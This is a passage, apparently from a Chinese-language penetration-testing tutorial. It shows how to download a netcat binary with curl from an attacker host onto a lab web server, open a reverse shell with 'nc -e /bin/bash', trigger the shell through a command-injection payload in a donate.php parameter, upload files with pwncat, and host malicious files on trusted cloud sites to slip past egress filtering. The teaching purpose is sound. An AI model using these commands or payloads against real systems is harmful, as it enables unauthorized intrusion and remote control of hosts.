 您现在可以通过远程 curl 命令将其下载到*p-web-02*，并将其设置为可执行文件：

```
$ **cd /var/www/html**
$ **curl -O http://172.16.10.1:8000/nc**

% Total    % Received % Xferd  Average  Speed    Time    Time    Time  Current
                                 Dload  Upload   Total   Spent   Left  Speed
100 34952  100 34952    0     0  33.3M      0 --:--:-- --:--:--  --:-- 33.3M 
```

在 Kali 虚拟机中，我们现在可以在新终端上通过不同的端口建立第二个反向 shell 连接。我们选择 1234 端口（因为第一个反向 shell 使用的是端口 1337）：

```
$ **nc -lvp 1234**
```

接下来，我们可以在第一个反向 shell 中执行新的 nc 二进制文件，通过 nc 建立第二个反向 shell。我们还可以通过使用 & 将此过程发送到后台：

```
# **chmod u+x nc**
# **./nc 172.16.10.1 1234 -e /bin/bash &**

[1] 140 
```

另外，我们可以简单地在新的 Kali 终端中通过 curl 调用 *p-web-02* 上的 Netcat 二进制文件，利用操作系统命令注入漏洞：

```
$ **curl http://172.16.10.12/donate.php?amount=%7C+.%2Fnc+172.16.10.1+1234+-e+%2Fbin%2Fbash**
```

这种方法绕过了第一个反向 shell 的需求。

### 使用 pwncat 上传文件

当我们使用 pwncat 建立一个 shell 时，可以利用其上传命令在攻击者和受感染目标机器之间传输文件。上传命令接受两个参数，源文件和目标位置：

```
(local) pwncat$ **upload /etc/passwd /tmp/remote_passwd.txt**
[16:16:46] uploaded in 0.32 seconds 
```

重要的是要记住，除非 pwncat 使用 SSL，否则攻击者机器与目标机器之间的流量将是明文传输。（Netcat 和 Ncat 也是如此。）

### 从可信网站下载二进制文件

通常，环境不会阻止与常用网站（如 GitHub、GitLab、Google Drive 和 Microsoft OneDrive）以及云服务（如亚马逊简单存储服务 S3 和 Google 云存储 GCS）的外发流量。因此，这些是托管恶意文件的好地方。

安全性成熟度较低的组织通常会对其整个网络（包括用户和服务器）使用相同的出站过滤策略，并且往往没有很好的方法来阻止网站的某一部分，同时允许其他部分通过。此外，如果公司使用亚马逊 Web 服务（AWS）或任何其他云服务商来托管其基础设施，很可能会允许与云服务提供商之间的所有流量。

作为渗透测试员，你应该探索目标使用的任何第三方服务，并寻找方法通过它们托管你的恶意文件。例如，如果你的目标有一个公共的营销网站，并且提供与代理对话的聊天机器人功能，可能有办法通过聊天匿名附加文件。如果是这种情况，你可以复制并粘贴该链接，用它将恶意文件传输到后续受感染的主机。

通过可信网站托管的一个好处是，如果网站通过安全超文本传输协议（HTTPS）提供，受感染的机器与可信网站之间的通信将自动加密。

练习 10：保持持续的反向 Shell 连接
